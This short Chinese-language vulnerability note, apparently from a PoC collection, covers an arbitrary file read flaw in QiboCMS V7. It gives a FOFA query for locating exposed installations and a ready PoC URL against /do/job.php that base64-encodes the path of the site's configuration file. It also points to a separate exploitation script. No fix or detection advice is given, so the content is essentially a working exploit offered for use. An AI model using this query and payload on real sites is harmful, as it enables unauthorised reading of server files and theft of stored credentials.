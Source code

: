 # 齐博CMS V7任意文件读取漏洞

## 漏洞影响

```
齐博cms V7
```

## FOFA

```
app="齐博cms"
```

## Poc

```
/do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
```

ZGF0YS9jb25maWcucGg8  为base64编码后的文件名

综合验证和利用脚本见 Qibo_v7.py